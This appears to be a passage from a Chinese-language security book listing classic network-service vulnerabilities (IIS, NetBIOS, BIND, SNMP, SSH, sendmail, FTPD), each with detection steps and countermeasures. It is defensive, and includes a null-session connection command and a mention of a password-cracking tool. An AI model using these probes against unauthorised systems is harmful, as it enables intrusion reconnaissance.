**漏洞。** 攻击者可以利用 IIS 远程数据服务 (RDS) 中的编程缺陷，以管理员权限运行远程命令。

**受影响系统。** 运行 Internet Information Server 且 /msadc 虚拟目录已映射的 Microsoft Windows NT 4.0 系统。

**入侵检测。** 此漏洞影响运行 IIS 的 Windows NT4.0、2000、2000 Server、2000 Advanced Server、2000 DataCenter Server 和 Windows XP beta。远程攻击者无需该服务正在运行即可利用此漏洞。

**对策。** 此问题无法通过补丁修复。为防止此问题，请按照以下安全公告中的说明操作：

- support.microsoft.com/support/kb/articles/q184/3/75.asp
- www.microsoft.com/technet/security/bulletin/ms98-004.asp
- www.microsoft.com/technet/security/bulletin/ms99-025.asp

或者，升级到高于 2.1 版本的 MDAC，网址为 www.microsoft.com/data/download.htm。

## 黑客攻击 11：未受保护的 NetBIOS 共享

**漏洞。** NetBIOS 消息基于服务器消息块 (SMB) 格式，DOS 和 Windows 使用 SMB 来共享文件和目录。在 *NIX 系统中，Samba 产品使用该格式来与 DOS 和 Windows 协作。虽然网络协议通常将节点或服务名称解析为网络地址以建立连接，但 NetBIOS 服务名称必须在与 TCP/IP 建立连接之前解析为地址。这可以通过上述消息或本地 LMHOSTS 文件实现，其中每台 PC 包含网络节点及其相应 IP 地址的列表。通过 TCP/IP 运行 NetBIOS 使用端口 137-139，其中端口 137 是 NetBIOS 名称 (UDP)，端口 138 是 NetBIOS 数据报 (UDP)，端口 139 是 NetBIOS 会话 (TCP)。此漏洞允许从任何导出、挂载的文件系统中修改或删除文件。服务器消息块 (SMB) 可与 Sun 的网络文件系统 (NFS) 相媲美，它允许使用 NetBIOS 协议在网络上共享文件系统。此漏洞赋予远程入侵者对挂载文件系统上文件的特权访问。因此，攻击者可能会删除或更改文件。

**受影响系统。** 在 Internet 上运行 NetBIOS 服务的系统。

**入侵检测。** 使用 ShieldsUP（网址为 www.grc.com）获取任何系统 SMB 暴露的实时评估。Microsoft Personal Security Advisor 还会报告您是否易受 SMB 漏洞利用，并可以在 www.microsoft.com/technet/security/tools/mpsa.asp 修复该问题。

**对策。** SANS 建议采取以下步骤来防御未受保护的共享：

1. 共享数据时，确保仅共享必需的目录。
2. 为增加安全性，仅允许对特定 IP 地址进行共享，因为 DNS 名称可能被欺骗。
3. 对于 Windows 系统（NT 和 2000），使用文件系统权限确保共享目录上的权限仅允许需要访问的人访问。
4. 对于 Windows 系统，通过 "null session" 连接防止对用户、组、系统配置和注册表项进行匿名枚举。
```


 5. 在路由器或主机上阻止对 NetBIOS 会话服务（TCP 139）和 Microsoft CIFS（TCP/UDP 445）的入站连接。

6. 考虑为独立环境或非信任域环境中连接到 Internet 的主机实施 RestrictAnonymous 注册表项。有关更多信息，请参阅以下网页：

Windows NT 4.0: support.microsoft.com/support/kb/articles/Q143/474.asp

Windows 2000: support.microsoft.com/support/kb/articles/Q246/2/61.asp.

## 黑客攻击 12：空会话信息泄露

**漏洞。** 据 SANS 称，Null Session 连接（也称为匿名登录）是一种允许匿名用户通过网络检索信息（如用户名和共享资源）或无需身份验证即可连接的机制。explorer.exe 等应用程序使用它来枚举远程服务器上的共享资源。在 Windows NT 和 Windows 2000 系统上，许多本地服务在 SYSTEM 帐户下运行（Windows 2000 上称为 LocalSystem）。SYSTEM 帐户用于各种关键系统操作。当一台计算机需要从另一台计算机检索系统数据时，SYSTEM 帐户将向另一台计算机打开空会话。SYSTEM 帐户拥有几乎无限的权限，且没有密码，因此你无法以 SYSTEM 身份登录。SYSTEM 有时需要访问其他计算机上的信息，如可用共享、用户名等——即"网上邻居"类型的功能。由于它无法使用用户 ID 和密码登录其他系统，因此使用空会话来获取访问权限。不幸的是，攻击者也可以作为空会话登录。

**受影响系统。** Windows NT 4.0 和 Windows 2000 系统。

**入侵检测。** 尝试使用以下命令通过空会话连接到您的系统：

```
net use \\a.b.c.d\ipc$ "" /user:""
```

其中 a.b.c.d 是远程系统的 IP 地址。如果您收到"连接失败"的响应，则您的系统不存在漏洞。如果没有返回任何回复，则意味着命令成功，您的系统存在漏洞。还可以使用"Hunt for NT"；它是 www.foundstone.com 的 NT 取证工具包的一个组件。

**对策。** 域控制器需要空会话进行通信。因此，如果您在域环境中工作，可以最小化攻击者能够获取的信息，但无法阻止所有泄露。要限制攻击者可用的信息，在 Windows NT 4.0 计算机上，修改以下注册表项：

```
HKLM/System/CurrentControlSet/Control/LSA/RestrictAnonymous=1
```

将 RestrictAnonymous 设置为 1 仍然会使某些信息对匿名用户可用。在 Windows 2000 上，您可以将值设置为 2。这样做将阻止匿名用户访问所有未明确授予他们或 Everyone 组（包括空会话用户）的信息。

每当您修改注册表时，可能会导致系统停止正常工作。因此，请事先测试任何更改。此外，始终备份系统以简化恢复。如果您不需要文件和打印共享，请从 TCP/IP 上解除 NetBIOS 的绑定。

请注意，在域控制器和某些其他服务器上配置 RestrictAnonymous 可能会扰乱许多正常的网络操作。因此，建议仅对那些"可见"于 Internet 的计算机配置此值。所有其他计算机都应通过配置为阻止 NetBIOS 和 CIFS 的防火墙进行保护。

绝不应允许 Internet 用户访问任何内部域控制器或其他非专门为外部访问构建的计算机。要阻止此类访问，请在外部路由器或防火墙上阻止以下端口：TCP 和 UDP 135 到 139，以及 445。

## 黑客攻击 13：SAM LM 哈希

**漏洞。** Windows NT 将用户信息存储在安全帐户管理器（SAM）数据库中，特别是加密密码。Microsoft 存储的 LAN 管理器密码哈希容易受到窃听和破解的攻击。

**受影响系统。** 默认的 Windows NT 4.0 和 Windows 2000 系统。

**入侵检测。** 使用密码破解工具，如 www.atstake.com/research/lc3/download.html 的 LC3（l0phtcrack 第 3 版）或 *Hack Attacks Revealed, Second Edition* 随附 CD 中的工具之一。

**对策。** SANS 建议通过禁用网络上的 LAN 管理器身份验证并使用 NTLMv2 来防止对 LMHash 的密码破解。NTLMv2（NT LanManager 版本 2）挑战/响应方法通过使用更强的加密和改进的身份验证及会话安全机制，克服了 LAN 管理器（LM）中的大多数弱点。

在 Windows NT 4.0 SP4 及更新的系统上（包括 Windows 2000），您的网络中仅使用 NTLMv2。在 Windows NT 和 2000 中控制此功能的注册表项是 HKLM\System\CurrentControlSet\Control\LSA\LMCompatibilityLevel。如果将其值设置为 3，工作站或服务器将仅提供 NTLMv2 凭据进行身份验证。如果将其设置为 5，任何域控制器将拒绝 LM 和 NTLM 身份验证，并且只接受 NTLMv2。

如果您的网络上有较旧的系统（如 Windows 95），则必须仔细规划更改。较旧的系统无法使用 Microsoft 网络客户端的 NTLMv2。在 Win 9x 中，参数为 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\LSA\LMCompatibility，允许值为 0 或 3（使用目录服务客户端时）。最安全的选项是淘汰这些较旧的系统，因为它们会阻止您提供组织所需的最低安全级别。

Microsoft Technet 文章"How to Disable LM Authentication on Windows NT [Q147706]"详细介绍了 Windows 9x 和 Windows NT/2000 注册表所需的更改。"LMCompatibilityLevel and Its Effects [Q175641]"解释了此参数的互操作性问题。Technet 的另一篇非常有用的文章是"How to Enable NTLMv2 Authentication for Windows 95/98/2000/NT [Q239869]"。它解释了 Windows 2000 的 Windows 95/98 目录服务客户端的使用，以克服 NTLMv2 的兼容性限制。

简单删除网络上 LanMan 哈希的问题在于，这些哈希仍然会在 SAM 或 Active Directory 中创建和存储。Microsoft 最近提供了一种新的机制，可以完全关闭 LanMan 哈希的创建。在 Windows 2000 系统上，转到以下注册表项：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```

在 RegEdt32 或 RegEdit 的"编辑"菜单上，单击"添加项"并添加一个名为 NoLMHash 的项。执行此操作后，退出注册表 editor 并重新启动计算机。下次用户更改密码时，计算机将不再创建 LanMan 哈希。如果在 Windows 2000 域控制器上创建此键，则 LanMan 哈希将不再在 Active Directory 中创建和存储。

在 Windows XP 上，可以通过设置注册表值来实现相同的功能：

```
Hive: HKEY_LOCAL_MACHINE
Key: System\CurrentControlSet\Control\Lsa
Value: NoLMHash
Type: REG_DWORD
Data: 1
```

这将产生与在 Windows 2000 下创建 NoLMHash 键相同的效果。

## 黑客攻击 14：远程过程调用（RPC）缓冲区溢出

**漏洞。** RPC 允许一台计算机上的程序在第二台计算机上执行程序。它们被广泛用于访问 NFS 文件共享和 NIS 等网络服务。据报道，这些程序容易受到各种 DoS 攻击。

**受影响系统。** 大多数 *NIX 版本。

**入侵检测。** 验证您是否正在运行三个最常被利用的 RPC 服务之一：

- rpc.ttdbserverd
- rpc.cmsd
- rpc.statd

**对策。** 如果不需要这些服务，请删除它们或关闭这些服务，然后从您的操作系统制造商处应用最新的补丁，并在边界路由器或防火墙上阻止或过滤 RPC 端口（端口 111），以及 RPC"回环"端口 32770-32789（TCP 和 UDP）。

## 黑客攻击 15：*NIX 缓冲区溢出

**漏洞。** 存在多个可能易受以下攻击的漏洞：

- BSD 行式打印机守护程序中可能发生缓冲区溢出情况。
- AIX 上的行式打印机守护程序中可能发生缓冲区溢出情况。
- Sendmail 漏洞可能允许获取 root 访问权限。
- 可以使用欺骗性 DNS 绕过主机名身份验证。
- HP-UX 上的行式打印机守护程序中可能发生缓冲区溢出情况。

**受影响系统。** 大多数 *NIX 版本。

**入侵检测。** 如下：

- *BSD 行式打印机守护程序中可能发生缓冲区溢出情况。* 如果攻击者使用列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，则他或她可以发送专门构建的打印作业到打印机并请求显示打印队列，以导致缓冲区溢出发生。攻击者可以利用溢出情况以行式打印机守护程序的权限（可能是超级用户）执行任意代码。


AIX 系统的行式打印机守护进程中可能发生缓冲区溢出情况。如果攻击者：

- 使用列在脆弱系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，他或她可以利用 kill_print() 缓冲区溢出漏洞导致 DoS 情况发生，或获取行式打印机守护进程的权限（通常为 root 权限）。
- 使用列在脆弱系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，他或她可以利用 send_status() 缓冲区溢出漏洞导致 DoS 情况发生，或获取行式打印机守护进程的权限（通常为 root 权限）。
- 使用能够控制 DNS 服务器的系统，他或她可以利用 chk_fhost() 缓冲区溢出漏洞导致 DoS 情况发生，或获取行式打印机守护进程的权限（通常为 root 权限）。

Sendmail 漏洞可能允许 root 访问。由于行式打印机守护进程允许将选项传递给 sendmail，攻击者可以使用这些选项来指定不同的配置文件。这可能允许攻击者获取 root 权限。

主机名认证可以通过伪造 DNS 绕过。通常，多个系统自带的行式打印机守护进程包含一个漏洞，该漏洞可能在不应授予访问权限时授予访问权限。如果攻击者能够控制 DNS，攻击者的 IP 地址可能被解析为打印服务器的主机名。在这种情况下，即使不应该授予访问权限，访问也会被授予。

HP-UX 的行式打印机守护进程中可能发生缓冲区溢出情况。rpldaemon 在 HP-UX 系统上提供网络打印功能。然而，rpldaemon 包含一个易受特制打印请求攻击的漏洞。此类请求可用于在脆弱系统上创建任意目录和文件。由于 rpldaemon 默认以超级用户权限启用，远程攻击者可能获取系统的超级用户访问权限。由于不需要现有系统知识，而且 rpldaemon 默认启用，这些系统是攻击者的主要目标。

**对策：** 应用适当的供应商补丁以解决特定问题。还建议禁用任何不必要的服务。如果需要网络打印服务，可以使用防火墙（或支持 TCP 过滤的路由器）将访问限制为需要访问该服务的设备。

## Hack Attack 16: BIND 缺陷

**漏洞。** 域名是标识一个或多个 IP 地址的基于字符的句柄。此服务存在仅仅是因为字母域名比 IP 地址更容易让人们记住。域名服务（DNS），也称为 *BIND*，将这些域名翻译回其各自的 IP 地址。过时的 BIND 软件包容易受到缓冲区溢出等攻击，这可能允许攻击者获取对系统的未授权访问。

**受影响的系统。** 大多数 *NIX 风格系统。

**入侵检测。** 使用良好的漏洞扫描器识别 BIND 弱点。

**对策。** 应采取 SANS 的以下步骤来防御 BIND 漏洞：

1. 在所有未被授权为 DNS 服务器的系统上禁用 BIND 名称守护进程（称为 "named"）。一些专家建议您同时删除 DNS 软件。
2. 在授权为 DNS 服务器的机器上，更新到最新版本和补丁级别。使用以下公告中包含的指导：
   - 对于 CREDIT：www.cert.org/advisories/CA-99-14-Modern_Bind_bug.html
   - 对于 QINV（反向查询）和 NAMED 漏洞：www.cert.org/advisories/CA-98.05.bind_problems.html www.cert.org/summaries/CS-98.04.html
3. 以非特权用户身份运行 BIND，以在未来远程妥协攻击事件中提供保护。（然而，只有以 root 身份运行的进程才能配置为使用 1024 以下的端口——DNS 的要求。因此，您必须配置 BIND 在绑定到端口后更改 UserID。）
4. 在 chroot() 目录结构中运行 BIND，以在未来远程妥协攻击事件中提供保护。
5. 除授权主机外，禁用区域传输。
6. 禁用递归和胶水获取，以防御措施防止 DNS 缓存投毒。
7. 隐藏您的版本字符串。

## Hack Attack 17: SNMP 缺陷

**漏洞。** 多个漏洞，包括但不限于未授权访问、拒绝服务（DoS）、严重拥塞以及系统停止/重启。简单网络管理协议（SNMP）用于管理和监控符合 SNMP 的网络设备。这些设备可以包括"可管理"路由器、交换机、文件服务器、CSU/DSU、工作站、存储区域网络设备（SAN）以及许多其他设备。运行 SNMP 协议的设备向启用 SNMP 的监控设备发送陷阱消息。这些监控设备解释陷阱，以评估、处理和报告所获取的信息。

**受影响的系统。** 在多个启用 SNMP 的设备上使用 SNMP v1 时存在多个漏洞。

**入侵检测。** SNMP 使用社区字符串的方式类似于使用用户 ID/密码。通常，有三种类型的社区字符串：只读、读写和 SNMP 陷阱。这些字符串不仅帮助 SNMP 设备确定谁（哪个字符串）可以访问它们，还确定允许什么类型的访问（只读、读写或 SNMP 陷阱信息）。许多制造商使用 SNMP 的设备上存在多个漏洞，不同的漏洞可能存在于不同的设备上。漏洞可能导致（但不限于）DoS、未授权访问、系统停止/重启和配置控制。一些漏洞可能不需要使用社区字符串。此外，许多设备出厂时启用了"public"只读社区字符串，如果不从默认值更改，至少可以使设备对任何使用"public"字符串的设备可见，包括未授权用户。

**对策。** 由于此漏洞影响许多供应商，首要建议是咨询您的供应商。也就是说，有一些一般准则需要遵循：

- 如果未使用 SNMP，请禁用它。如果正在使用，请应用适当的补丁（请咨询供应商）。
- 将字符串从默认值更改，然后确保已完成更改，并且在所有需要通信和共享信息的设备上保持一致。
- 为 SNMP 流量使用单独的管理网络，而不是允许其在生产网络上运行。
- 在适当情况下过滤入站和出站 SNMP 流量。这可以使用端口过滤技术来完成，以及仅允许来自可信来源的 SNMP 流量。
- 在实施任何更改之前，确保计划经过深思熟虑。

## Hack Attack 18: Shell 守护进程攻击

**漏洞。** 安全 Shell（SSH）守护进程中存在多个漏洞，导致未授权的 root 访问、拒绝服务（DoS）、任意代码执行和完全的系统妥协。

**受影响的系统。** SSH1 协议中存在漏洞，可能允许攻击者以 SSH 守护进程权限执行任意代码。此外，针对补偿攻击检测器的暴力破解攻击可能导致完全的系统妥协。

**入侵检测。** 许多 SSH 漏洞已经被报告，本通告主要是为了提醒系统管理员注意存在的漏洞；这里讨论两个：

- 多个 SSH1 协议实现中存在远程整数溢出漏洞。detect_attack 函数将连接信息存储在动态哈希表中。审查此表以帮助检测和响应 CRC32 攻击。攻击者可以发送一个导致 SSH 创建大小为零的哈希表的数据包。当 detect_attack 函数尝试将信息存储到哈希表中时，函数调用的返回地址可以被修改。这允许以 SSH 权限（通常为 root）执行任意代码。
- 第二个漏洞是补偿攻击检测器漏洞。使用暴力破解攻击，攻击者可能获得受影响机器的完全访问权限。报告显示系统日志中可能有许多类似以下内容的消息：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input.
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network
    attack detected
```

一旦系统被妥协，报告识别出特洛伊木马的安装、设计用于查找其他脆弱系统的网络扫描设备，以及旨在隐藏入侵者行为并允许未来访问的其他项目。

**对策。** 查看制造商网站以获取最新的安全信息。如果可能，升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 有可能使用 SSH1 实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新补丁。与许多服务一样，如果不需要 SSH，请拒绝访问该服务。


 ## 攻击手法 19：rsync 漏洞

**漏洞。** 远程同步（Remote Sync）漏洞可能允许攻击者执行任意代码或使系统停止运行。远程同步允许目录结构在其他机器（本地或远程）上进行复制。rsync 中存在有符号和无符号数字，这使得 I/O 函数可能被远程利用。

**受影响系统。** 大多数 Linux 发行版。

**入侵检测。** 攻击者可以通过伪装成 rsync 客户端或服务器来执行任意代码。攻击者还可能导致系统停止运行。这进一步增强了攻击者伪装成 rsync 客户端或服务器的能力，因为其中一台设备变得不可用。

**应对措施。** 将 rsync 升级到最新可用的 rsync 软件包。在可能的情况下，应使用 chroot、uid 和只读选项。

## 攻击手法 20：对家庭用户的持续威胁

**漏洞。** 家庭网络用户存在多种漏洞，可能导致数据丢失、拒绝服务和完全系统被入侵。

**受影响系统。** 家庭网络用户。

**入侵检测。** 这些漏洞包括 Code Red 蠕虫（在之前的章节中讨论过）、Leaves、Power 和 Knight 等蠕虫。据报道，仅 Leaves 蠕虫就感染了超过 23,000 个系统，该蠕虫用于入侵已安装 SubSeven 木马的系统。已有超过 250,000 例系统感染 Code Red 蠕虫的报告。据报道，超过 10,000 个系统感染了 Power 蠕虫，该蠕虫可以利用 IIS Unicode 漏洞访问已被入侵的机器，并使用这些系统发起额外的 DoS 攻击。Knight 已在至少 1,500 个系统上被发现。Knight 是一种分布式攻击工具，它利用 IIS Unicode 漏洞访问已被入侵的机器，并使用这些系统发起额外的 DoS 攻击。报告称，它可以安装在已被 BackOrifice 木马入侵的系统上。

**应对措施。** 这些漏洞以及许多其他漏洞可以通过采用可靠的安全实践来缓解，包括以下几点：

- 确保使用充分且最新的病毒防护。许多防病毒程序允许自动更新。定期进行病毒扫描。
- 使用能够删除已知恶意流量和消息类型的防火墙产品。经常检查防火墙更新和漏洞。
- 阻止对内部设备的所有不必要访问。
- 不要让允许端口保持开放和"监听"状态的程序继续运行。这些程序可以包括（但不限于）许多"知名端口"，包括 FTP、Telnet、TFTP、SMTP、HTTP 等，以及 MSN 即时通讯、AOL 即时通讯、ICQ 等程序。
- 如有可能，关闭不使用的机器。
- 更新操作系统软件并应用相关补丁。

## 攻击手法 21：DNS 漏洞

**漏洞。** 存在许多 DNS 漏洞，恶意用户可以利用这些漏洞来获取对目标机器的未经授权的特权访问和/或破坏目标机器上的服务。

**受影响系统。** 运行早于 8.2.3 版本的 BIND 的 *NIX 服务器。

**入侵检测。** 具体如下：

- *事务签名代码中的缓冲区溢出。* BIND 8.2 到 BIND 8.2.2（所有补丁级别）在检测到无效事务签名时会将程序发送到错误处理例程。此错误处理程序与正常程序的初始化变量方式不同，使得当处理有效签名时，会产生缓冲区溢出条件。这种情况，加上其他缓冲区溢出利用技术，可能允许攻击者获得对系统的未经授权的访问。
- *nslookupComplain 中的缓冲区溢出。* BIND 4.9 到 BIND 4.9.7 使用固定长度缓冲区来构建要发送到 syslog 的错误消息。攻击者可以通过发送特制的 DNS 查询来溢出此缓冲区，从而允许执行任意代码。
- *信息泄露。* 通过向服务器发送特制的 DNS 查询，远程攻击者可以访问程序堆栈，从而获取程序变量的知识。BIND 4 到 BIND 4.9.7 以及 BIND 8 到 BIND 8.2.2（所有补丁级别）都受此漏洞影响。
- *NXT 记录处理不当。* BIND 8.2 和 BIND 8.2.1 未能正确验证 NXT 记录。攻击者可以利用此问题并通过导致缓冲区溢出来访问域名服务器。BIND 4.9 和 BIND 8 早于 BIND 8.2 的版本不受此问题影响，但存在其他问题（稍后讨论）。此漏洞的修复方法是升级到 BIND 8.2.2 或更高版本。
- *缓存投毒。* 当从另一个远程名称服务器接收到的恶意或误导性数据被另一个名称服务器保存（缓存）时，就会发生缓存投毒。然后，这些"不良"数据会通过客户端接口提供给请求缓存数据的程序使用。缓存投毒正被用于对主机名和 IP 地址之间的映射产生不利影响。一旦此映射被更改，网络上主机之间发送的任何信息都可能被检查、捕获或破坏。
- *BIND 4.9 和 BIND 8 版本中的反向查询缓冲区溢出。* BIND 4.9 早于 BIND 4.9.7 的版本和 BIND 8 早于 BIND 8.1.2 的版本在响应反向查询请求时没有正确地边界检查内存复制。TCP 流上格式不当或恶意的反向查询可能允许远程入侵者获得域名服务器上的 root 级别访问权限，或破坏域名服务器的正常操作。反向查询功能默认是禁用的，因此只有明确配置允许此功能的系统才会受到攻击。要确定系统是否易受攻击：
  - BIND 8：查看配置文件（通常为 /etc/named.conf）中的 "options" 块。如果文件中有一行 "fake-query yes"，则服务器易受此黑客攻击。
  - BIND 4.9：查看配置文件（通常为 /etc/named.boot）中的 "options" 行。如果有一行包含 "fake-iquery"，则服务器易受攻击。此外，与 BIND 8 不同，反向查询支持可能在服务器编译时启用。检查源代码中的 conf/options.h。如果 "#define INVQ" 这一行没有被注释掉，则服务器易受攻击。
- *BIND 4.9 和 BIND 8 版本中的拒绝服务漏洞。* BIND 8 早于 BIND 8.2.2-P7 的版本和所有 BIND 4.9 版本存在各种问题，可能允许格式不当或恶意的 DNS 消息使服务器崩溃或产生垃圾记录数据。许多处理 DNS 消息的 DNS 工具（例如 dig、nslookup）也未能进行适当的边界检查。任何运行 BIND 4.9 或 BIND 8 早于 BIND 8.2.2-P7 的系统都容易受到攻击。

**应对措施。** 所有这些漏洞都可以通过升级到 BIND 8.2.3（稳定版本）或更高版本，或升级到 BIND 4.9.8 来修复，可从 www.isc.org/products/BIND 获取。

## 攻击手法 22：SMTP 邮件中继

**漏洞。** 简单邮件传输协议（SMTP）是互联网最常用来定义电子邮件传输方式的协议。默认情况下，SMTP 守护进程在端口 25 上监听传入邮件，然后将消息复制到适当的邮箱中。如果无法投递邮件，通常会向发送者返回一份错误报告，其中包含无法投递邮件的第一部分。在建立与端口 25 的 TCP 连接后，作为客户端的发送机器等待作为服务器的接收机器发送一行文本，表明其身份并告知是否准备接收邮件。由于 TCP 可靠的字节流，通常不需要校验和。当所有电子邮件交换完毕后，连接被释放。未经授权的用户可能能够使用该系统来中继邮件。

**受影响系统。** 几乎所有使用 SMTP 的邮件服务器都可能存在漏洞。

**入侵检测。** 当某些 SMTP 服务器接受发送者或接收者地址时，未验证其中一个地址是否在服务器域中，该系统就存在漏洞。因此，通过虚构的接收者地址和伪造的发送者地址，电子邮件垃圾邮件的传播就成为可能。

**应对措施。** 默认情况下不允许中继。如果使用 *IX 邮件服务器，应将服务器升级到 Sendmail 8.9 或更高版本。如果使用非 *IX 邮件服务器，请联系供应商获取修复信息。

## 攻击手法 23：Sendmail 漏洞

**漏洞。** 恶意用户可以利用 sendmail 漏洞来获得未经授权的远程访问或本地权限提升。

**受影响系统。** 使用早于 8.11.6 版本的 sendmail 的系统。

**入侵检测。** Sendmail 版本 8.11.0 到 8.11.5 在调试功能中存在一个漏洞，可能允许本地用户获得系统上的提升权限。问题在于 tTflag() 函数，它负责处理 -d（调试）命令行开关并将结果写入内部跟踪向量。该函数检查跟踪向量的索引是否不大于跟踪向量的大小。然而，当执行检查时，索引被视为有符号整数，在这种变量类型中，大值被视为负数。因此，大值可以通过检查，允许用户将数据写入跟踪向量范围之外。由于 sendmail 默认以 set-userid 模式安装，本地攻击者可以利用此条件以提升的权限（通常为 root）执行任意命令。此漏洞只能由已登录到系统的用户利用。此漏洞已在 CIAC 公告 L-133 中报告。


sendmail 的 8.8.3 和 8.8.4 版本存在严重的安全漏洞，允许远程用户在本地系统上以 root 权限执行任意命令。通过向运行存在漏洞版本的 sendmail 的系统发送精心构造的电子邮件，入侵者可能迫使 sendmail 以 root 权限执行任意命令。这些命令在运行存在漏洞的 sendmail 的同一系统上执行。尽管存在防火墙和其他网络边界保护措施，此漏洞仍可能被利用。攻击者无需是本地用户即可利用此漏洞。此漏洞在 CERT 公告 CA-97.05 中有描述。

sendmail 的第 8 版（8.x.x 版本直至并包括 8.8.3）存在一个漏洞，本地用户可利用该漏洞以其他用户的组权限运行程序。要成功利用此漏洞，组可写文件必须与攻击者能够说服 sendmail 信任的文件位于同一文件系统上。此漏洞只能由本地用户（即，在目标计算机上拥有帐户的用户）利用。此漏洞在 CERT 公告 CA-96.25 中有描述。

sendmail 的 8.7 至 8.8.2 版本存在一个可用于获取 root 访问权限的漏洞。sendmail 通常以守护进程模式运行，以便它可以在标准 SMTP 网络端口（通常为端口 25）上"监听"传入的邮件连接。只有 root 用户才被允许以这种方式启动 sendmail，sendmail 包含用于强制执行此限制的代码。由于编码错误，sendmail 可以以绕过内置检查的方式在守护进程模式下调用，任何本地用户都能够以守护进程模式启动 sendmail。通过操纵 sendmail 邮件环境，用户随后可以让 sendmail 以 root 权限执行任意程序。此漏洞只能由本地用户（即，在目标计算机上拥有帐户的用户）利用。此漏洞在 CERT 公告 CA-96.24 中有描述，该公告还描述了 sendmail 8.8.0 和 8.8.1 版本中的其他漏洞。

sendmail 的 8.8.0 和 8.8.1 版本在 MIME 处理代码中存在缓冲区溢出情况。远程攻击者可以利用该情况获取服务器上的 root 访问权限。

sendmail 直至并包括 8.7.5 的版本存在两个漏洞。通过利用第一个漏洞，拥有本地帐户的用户可以获取默认用户的访问权限，该用户通常是 daemon。通过利用第二个漏洞，任何本地用户都可以获取 root 访问权限。这两个漏洞都只能由本地用户（即，在目标计算机上拥有帐户的用户）利用。此漏洞在 CERT 公告 CA-96.20 中有描述。

sendmail 的 5 至 8.6.9 版本存在一个漏洞，可能允许入侵者在服务器上以 root 权限执行命令。此漏洞在 CERT 公告 CA-95.08 中有描述。

sendmail 的 8.6.9 版本在处理 ident 服务响应时存在缓冲区溢出情况。sendmail 向客户端主机上的 ident 服务发起连接，以便记录正在建立连接的用户的有关信息。预期会收到格式正确的 ident 服务响应。攻击者可以改为发送一个非常长的响应，从而溢出缓冲区，使攻击者能够在服务器上执行任意命令。

一个不时会出现的旧漏洞是当 sendmail 在 DEBUG 模式下运行时。DEBUG 模式可能允许恶意用户通过 sendmail 获取访问权限。

sendmail 的非常旧的版本，例如 5.x 及更早版本，允许远程攻击者在电子邮件的某些字段中的管道符 (|) 后指定命令。这可能导致在服务器上以 root 权限执行任意命令。

**对策。** 将您的 sendmail 版本替换为最新版本，可从 www.sendmail.org/current-release.html 获取。

## 黑客攻击 24：POP 邮件服务器

**漏洞。** 邮局协议（POP）用于从邮件服务器守护进程检索电子邮件。历史上，有两个众所周知的 POP 版本：最早的 POP2（来自 1980 年代）和更新的 POP3。这两个版本之间的主要区别是 POP2 需要 SMTP 服务器守护进程，而 POP3 可以单独使用。POP 基于客户端/服务器拓扑结构，邮件由邮件服务器接收并保存，直到客户端软件登录并提取消息。未经授权的用户可能能够在不登录服务器的情况下访问 POP2 或 POP3 服务器。

**受影响系统。** 使用 POP2 或 POP3 处理邮件的系统。

**入侵检测。** 嗅探器可用于从频繁检查 POP 服务器以获取新邮件的计算机上以明文查看用户名和密码。

**对策。** 安装最新版本的 Secure POP3 邮件服务器是个好主意。另一种方法是使用可选命令（APOP），它可以减少用户名和密码的明文传输次数。IMAP4 也可用于提供额外的身份验证形式。

## 黑客攻击 25：HP OpenView 漏洞

**漏洞。** HP OpenView 的 ovactiond SNMP 陷阱处理程序存在一个漏洞，允许远程攻击者以 ovactiond 进程的权限执行任意代码。

### 受影响系统。

根据从 CERT 获得的信息，以下系统可能受到影响：在运行 HP-UX 版本 10.20 和 11.00（仅限）的 HP9000 服务器上运行的 HP OpenView NNM 版本 6.11；在 Sun Microsystems Solaris 版本 2.x 上运行；以及在 Microsoft Windows NT4.x/Windows 2000 上运行。

### 入侵检测。

该漏洞存在于 Windows 和 *NIX 平台。远程攻击者可能获得 Windows 平台上的管理访问权限和 *NIX 平台上的 root 访问权限。Windows 系统上的 ovactiond 进程通常被配置为在本地系统安全上下文中运行，在 *NIX 平台上以 user/bin 身份运行（攻击者可能利用 user/bin 访问权限来获取 root 访问权限）。由于 NTT 和 *NIX 平台都可以拥有信任关系（而且通常确实有），远程攻击者也有可能访问这些设备。OpenView 6.1 的默认配置存在漏洞。其他 OpenView 版本的默认配置，以及 NetView 5.x 和 6.x 的默认配置，不存在漏洞。但是，任何这些系统在经过某些修改后都可能变得存在漏洞。在 OpenView 上，如果 trapd.conf 文件已被修改，则可能出现此情况。在 NetView 上，如果授权用户配置了额外的事件操作并指定了潜在破坏性的 varbinds，则可能存在该漏洞。

### 对策。

应用适当的 HP OpenView 补丁（support.openview.hp.com/cpe/patches）。

## 黑客攻击 26：FTPD 漏洞

### 漏洞。

恶意用户可能能够访问存在漏洞的系统。

### 受影响系统。

许多运行 FTPD 的 *NIX 系统。

### 入侵检测。

如下：

- **SITE EXEC 缓冲区溢出。** WU-FTPD 版本 2.6.0 及更早版本和 HP-UX 11.00 openV 在 SITE EXEC 命令中存在漏洞，可能允许远程攻击者访问服务器。如果攻击者拥有系统上的用户帐户访问权限，或者系统上启用了匿名 FTP，则此漏洞可能被利用。
- **setproctitle 漏洞。** setproctitle 函数调用中缺少格式字符串，可能允许攻击者通过格式攻击获取 root 访问权限。已知 WU-FTPD 2.6.0 及更早版本、HP-UX 10.20 和 11.00、ProFTPD 1.2.0 之前版本，以及 OpenBSD FTPD 6.4 及更早版本容易受到此攻击。
- **OpenBSD/NetBSD 缓冲区溢出。** replydirname 函数中的单字节缓冲区溢出可能允许远程用户获取 root 访问权限。用户需要对服务器上的目录具有写访问权限，无论是通过用户帐户还是匿名帐户，才能利用此漏洞。OpenBSD 版本 2.8 或更早版本（FTPD 版本 6.5 或更早版本），以及 NetBSD 版本 1.5 或更早版本受此漏洞影响。
- **ProFTPD 中的多个漏洞：**
  - 第一个问题是拒绝服务，由包含过多全局匹配的命令导致。例如，通过发出带有包含多次 "*/." 字符串的参数的 list 命令，攻击者可能导致服务器耗尽所有可用内存，从而使 FTP 进程或服务器崩溃。ProFTP 版本 1.2.1 及更早版本受此漏洞影响。
